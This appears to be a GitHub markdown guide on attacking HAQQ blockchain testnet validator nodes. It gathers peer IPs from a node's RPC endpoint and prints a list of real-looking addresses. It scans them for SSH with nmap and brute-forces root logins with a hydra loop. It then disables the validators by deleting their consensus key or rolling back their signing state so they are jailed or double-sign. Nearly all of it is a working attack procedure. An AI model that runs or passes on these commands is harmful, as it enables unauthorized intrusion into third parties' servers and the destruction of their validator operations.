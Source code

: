 ### Briefly introduction
- Almost people joined testnet do not aware of security protection of their server. They often use user `root`, SSH default port 22 and their password to remote login their server.
- Based on that, we can do a Brute Force Attack to their server, then occupy user/password and we can disable their node

### 1. Get IP of current peers connected to our node
- Check RPC port of HAQQ node
```
haqqd status | jq ."NodeInfo"."other"."rpc_address"
```
Output will be:
> "tcp://0.0.0.0:30657"

- Collect IP of current peers then save to log file `Peer_IP.txt`
```
curl -sS http://localhost:30657/net_info | jq -r '.result.peers[] | "\(.node_info.id)@\(.remote_ip):\(.node_info.listen_addr)"' | awk '{FS=":|@"} {print $2}' | grep -e "^[1-9]" > Peer_IP.txt
```
Output will be as below:  
>```
> root@Hetz-HEL1-DC2-032:~# cat Peer_IP.txt
> 159.69.20.76
> 65.21.133.125
> 148.251.47.69
> 212.162.153.138
> 62.171.150.139
> 94.130.239.162
> 94.130.142.27
> 185.187.169.237
> 51.81.35.102
> 116.203.37.162
> 198.204.240.170
> 65.108.67.152
> 65.108.157.85
> 65.21.146.106
> 65.109.34.133
> 135.181.147.140
> 95.214.54.158
> 65.108.52.192
> 34.91.81.33
> 65.108.62.95
> 146.19.24.139
> 65.108.232.174
> 34.90.129.213
> 38.242.242.192
> ```

### 2. Check which SSH port is ON on these peers
- Install `nmap` on your server
```
sudo apt install nmap
```
- Check whether SSH port is enabled on peer IP servers
```
for i in `cat /root/Peer_IP.txt`; do echo "$i:`nmap $i|grep ssh`"; done
```
- Output log will be as below
> ![image](https://user-images.githubusercontent.com/91453629/194015036-c42d6d6e-f1ba-4e5f-8e22-ba88a992cd67.png)

### 3. Do brute-force attack to these servers
- Install software `hydra` on your server
```
sudo apt install hydra
```
- Open a screen session, then do Brute-Force ATK to these IPs with SSH default port 22
- Below script will try BF attack with min 6 letters, max 12 letters, all lower/upper/digit letters and all special letters
```
for i in `cat /root/Brute_Force_IP.txt`; do \
hydra -t 100 -l root -V -x '6:12:aA1"@#$!()=`~?><;:%^&*_-+/,.\ ' $i ssh > $i.log ; done
```
- Because brute force attack takes too long time to do. So below is example of brute-force attack to a server with simple password
> ![image](https://user-images.githubusercontent.com/91453629/194030899-0d8f28ef-ccd3-4047-bae3-c3db9de7b160.png)

### 4. Post BF attack
- After getting user/password, we can login these servers then do some ways to disable target validator node
#### 4.1 First way
  - Delele the file `priv_validator_key.json`, then restart node
```
rm -rf $HOME/.haqqd/config/priv_validator_key.json
systemctl restart haqqd
```
  - After restarting HAQQ node, HAQQ process will create new file `priv_validator_key.json` which has different consensus key with original file `priv_validator_key.json`, that cause the target validator node can not sign block and to be jailed 

#### 4.2 Second way
- The file `$HOME/.haqqd/data/priv_validator_state.json` stores state of signed blocks and signed block height of target validator. if we change the file to previous state, it can make validator node to be got double sign and blocked. 
